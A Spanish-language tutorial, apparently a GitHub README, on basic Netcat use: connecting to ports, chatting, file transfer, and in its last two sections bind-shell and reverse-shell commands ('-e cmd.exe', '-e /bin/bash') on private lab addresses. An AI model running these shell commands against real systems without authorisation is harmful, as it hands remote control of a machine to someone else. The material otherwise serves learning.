 # Uso básico de Netcat
Netcat es una herramienta de análisis de red que permite abrir puertos, transferir archivos, chatear, obtener una shell de un host remoto y muchas cosas mas.

**Después de esta rápida intro. Empecemos con el código!**

![programmer_gif](https://media.giphy.com/media/13HgwGsXF0aiGY/giphy.gif)

---
**🔹 Para conectarnos a un puerto de un host.**

- Ejemplo: Vamos a conectarnos al puerto 21 (FTP) de un host con IP: 192.168.0.100

 ```bash
nc -nv 192.168.0.100 21
```

---
**🔹 Para chatear desde dos hosts distintos a través de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100
  
  - host2: 192.168.0.101

En **host1** ejecutamos:

 ```bash
nc -nvlp 4444
```

En **host2** ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444
```

Desde este momento ambos equipos estarán conectados al puerto 4444 y todo lo que se escriba en uno será transmitido al otro.
La comunicación es bidireccional.

Para cortar la conexión. Basta con pulsar CTRL + C

---
**🔹 Para transferir archivos entre dos hosts a traves de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100
  
  - host2: 192.168.0.101

Desde **host1** vamos a recibir un fichero. A través del puerto 4444. Para ello ejecutamos:

 ```bash
nc -nvlp 4444 > archivo_recibido.txt
```

En **host2** vamos a enviar el fichero por medio del mismo puerto. Para ello ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444 < archivo_enviado.txt
```
---
**🔹 Bind Shell: conectarnos a la shell de un servidor por medio de un puerto**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100  ->  En este caso usaremos un Windows.
  
  - host2: 192.168.0.101  ->  En este caso será un Linux.

Desde **host1** vamos a servir la shell. A través del puerto 4444. Para ello ejecutamos:

 ```bash
nc -nvlp 4444 -e cmd.exe
```

En **host2** vamos a conectarnos al puerto indicado para tomar el control de la shell. Para ello ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444
```

En cuanto se ejecute lo anterior. Tendremos el control de la shell de **host1** (Windows). Desde **host2** (Linux).

---
**🔹 Reverse Shell: servir la shell de un servidor por medio de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts Linux:

  - host1: 192.168.0.100
  
  - host2: 192.168.0.101

Desde **host1** vamos a levantar el puerto 4444 para que este escuchando. Para ello ejecutamos:

 ```bash
nc -nvlp 4444
```

En **host2** vamos a servir una shell a través del puerto indicado. Para ello ejecutamos:

 ```bash
nc -nv 192.168.0.100 4444 -e /bin/bash
```

En cuanto se ejecute lo anterior. Desde **host1** podremos tener el control de la shell ofrecida por **host2**. 